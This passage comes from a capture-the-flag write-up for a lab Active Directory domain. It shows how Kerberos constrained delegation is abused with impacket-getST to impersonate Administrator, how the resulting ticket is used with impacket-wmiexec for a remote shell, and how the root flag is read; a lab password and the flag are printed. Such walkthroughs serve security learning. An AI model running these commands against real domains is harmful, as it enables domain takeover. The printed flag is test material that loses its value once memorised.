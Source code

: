 Look at the `DARLA_WINTERS` node and see that delegation is possible for the CIFS service.

![[Screenshot from 2024-08-18 13-04-37.png]]

#### DARLA_WINTERS\@THM.CORP -> AllowedToDelegate -> HAYSTACK.THM.CORP

The **AllowedToDelegate** permission allows us (in this case DARLA_WINTERS\@THM.CORP) to impersonate the **Administrator** account by targeting the CIFS service to retrieve a usable TGS ticket**.

To do this is use an `mpacket` script named `getST`.
Due to the fact the machine has AV turned on this is the easier way of do the job.

- Run on the attacking machine:

	`impacket-getST -spn cifs/HAYSTACK.THM.CORP -impersonate Administrator "thm.corp/DARLA_WINTERS:Password@2022" -dc-ip <MACHINE IP`

	
	![[Screenshot from 2024-08-18 13-10-03.png]]
	The ticket is save in Administrator.ccache file.

- Set the variable `KRB5CCNAME` via `export KRB5CCNAME=<filename>`

	`export KRB5CCNAME=Administrator.ccache'

- Run `impacket-wmiexec`.
	`impacket-wmiexec -no-pass -k thm.corp/administrator@HAYSTACK.THM.CORP`

	![[Screenshot from 2024-08-20 11-46-09.png]]

- Run `whoami`.
	![[Screenshot from 2024-08-20 11-48-59.png]]

- Go to `C:\users\Administrator\Desktop>` and run type `root.txt`.
	You'll get root's flag.
	THM{RE_RE_RE_SET_AND_DELEGATE}
